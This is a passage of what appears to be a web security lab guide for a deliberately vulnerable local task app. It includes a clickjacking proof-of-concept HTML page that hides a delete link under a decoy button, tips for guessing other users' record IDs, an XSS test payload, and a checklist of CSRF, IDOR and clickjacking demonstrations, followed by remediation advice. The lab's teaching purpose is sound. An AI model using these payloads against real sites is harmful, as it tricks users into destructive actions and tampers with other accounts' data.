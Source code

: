 **Vulnerability:** No `X-Frame-Options` or CSP → pages can be iframed and overlaid with deceptive UI.

### PoC

Create `clickjack.html` and open it while logged in:

```html
<!doctype html>
<style>
  iframe { position: absolute; top:0; left:0; width:100vw; height:100vh; opacity:0.1; }
  button.fake { position:absolute; top:120px; left:120px; padding:20px; }
</style>
<button class="fake">Click here for FREE COFFEE ☕</button>
<iframe src="http://127.0.0.1:5000/delete/42"></iframe>
```

**Result:** Clicking the visible button actually clicks the hidden delete link beneath it.

---

## 5) Recon Tips & ID Discovery

* **ID Guessing:** Since IDs are incremental, create a few tasks and note the growth (e.g., your first task might be 7, then 8, etc.). Older IDs likely belong to other accounts.
* **Existence Check:** `/edit/<id>` returns an edit form when the ID exists; otherwise you’ll see a “Task not found” flash. Use that to confirm valid IDs.
* **Network Tab:** Watch which endpoints the UI calls when you click **Edit**, **Delete**, or toggle the checkbox.

---

## 6) Suggested Write‑Up Structure (for reports)

1. **Title**: Stored XSS in Task Title leads to account actions via authenticated fetch
2. **Summary**: Explain the impact and where the bug lives.
3. **Steps to Reproduce**: Copy the exact steps/payloads above.
4. **Impact**: Session‑authenticated actions; potential for persistent worm; user data manipulation.
5. **Remediation**:

   * Escape output; remove `|safe` unless output is pre‑sanitized.
   * Add CSRF tokens to state‑changing routes; avoid `GET` for destructive actions.
   * Verify ownership on all task mutations: `WHERE id = ? AND user_id = ?`.
   * Add `X-Frame-Options: DENY` and a strict CSP.

---

## 7) Quick Checklist (What to Demonstrate)

* [ ] Add `<script>alert(1)</script>` task → alert triggers on list view (Stored XSS).
* [ ] Use `/edit/<id>` to confirm other users’ task existence.
* [ ] Change another user’s task title via `/edit/<id>` (IDOR).
* [ ] Delete another user’s task via `/delete/<id>` (IDOR).
* [ ] Trigger CSRF add via auto‑submit form.
* [ ] Trigger CSRF delete/toggle via hidden `<img>`.
* [ ] Demonstrate clickjacking PoC.
